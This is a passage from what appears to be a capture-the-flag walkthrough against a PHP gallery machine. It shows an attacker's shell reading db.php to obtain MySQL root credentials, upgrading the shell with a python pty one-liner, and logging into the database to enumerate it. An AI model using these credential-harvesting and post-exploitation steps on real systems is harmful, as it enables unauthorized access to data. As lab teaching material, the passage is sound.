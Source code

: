 ```
-rw-r--r--. 1 root root  619 Jun  8 13:46 phpGalleryStyle-RED.css
-rw-r--r--. 1 root root  509 Jun  8 13:46 phpGalleryStyle.css
drwxr-xr-x. 2 root root    6 Jun 10 09:31 phpGallery_images
drwxr-xr-x. 2 root root    6 Jun 10 09:31 phpGallery_thumbs
-rw-r--r--. 1 root root 2.6K Jun  8 13:46 thumbnail_generator.php
sh-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
sh-4.2$
```

We can use these credentials to authenticate to the MySQL server on the target (via localhost).

### MySQL Database Enumeration

Before running the MySQL command line tool, we need to upgrade our shell:

```
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$
```

We can now connect to the database and enumerate further:

```
bash-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW DATABASES;
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> USE SimplePHPGal;
USE SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```